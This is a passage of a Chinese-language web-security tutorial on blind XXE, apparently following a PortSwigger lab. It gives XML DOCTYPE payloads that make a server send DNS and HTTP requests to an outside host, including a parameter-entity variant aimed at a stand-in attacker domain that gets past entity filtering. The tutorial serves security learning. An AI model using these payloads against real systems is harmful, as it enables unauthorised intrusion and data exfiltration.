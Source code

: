随后差入一下载荷并替换 productId 中的数据值，发送请求并点击"Poll now"刷新监测情况，可以看到 DNS 和 HTTP 请求过来

```bash
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
```

[![](assets/1706060044-b2ff3c15abe64e53c2285b219ade3a8c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131248-0cf06b8a-b9ae-1.png)

#### 盲注绕过

有时由于应用程序的某些输入验证或正在使用的 XML 解析器的某些强化，使用常规实体的 XXE 攻击会被阻止，在这种情况下您可以改用 XML 参数实体，XML 参数实体是一种特殊类型的 XML 实体，只能在 DTD 中的其他地方引用，就目前的目的而言，你只需要知道两件事，首先 XML 参数实体的声明在实体名称之前包含百分比字符：

```bash
<!ENTITY % myparameterentity "my parameter entity value" >
```

其次使用百分比字符而不是通常的"&"符号来引用参数实体：

```bash
%myparameterentity;
```

这意味着您可以通过 XML 参数实体使用带外检测来测试盲注类型的 XXE，这个 XXE 有效载荷声明了一个名为 XXE 的 XML 参数实体，然后在 DTD 中使用该实体，这将导致对攻击者的域进行 DNS 查找和 HTTP 请求，从而验证攻击是否成功

```bash
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

靶场名称：Lab: Blind XXE with out-of-band interaction via XML parameter entities  
靶场地址：[https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)  
演示过程：  
随意选择一个商品  